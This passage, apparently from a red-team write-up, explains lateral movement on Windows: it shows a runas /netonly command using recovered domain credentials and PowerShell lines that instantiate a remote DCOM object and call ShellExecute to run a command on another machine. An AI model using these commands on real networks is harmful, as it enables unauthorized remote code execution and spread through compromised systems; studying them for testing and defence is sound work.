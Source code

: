 \
When invoking .NET calls in this fashion, the existing auth token is used. Great for lateral movement from a compromised system, but not if you are remotely accessing a target machine with recovered credentials. The simplest method we have found is to create a new PS Session with runas.

**Example auth:**

```
PS> runas /netonly /user:TESTLAB\josh "powershell.exe"
```

\
**Example code execution:**

```
PS> $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```
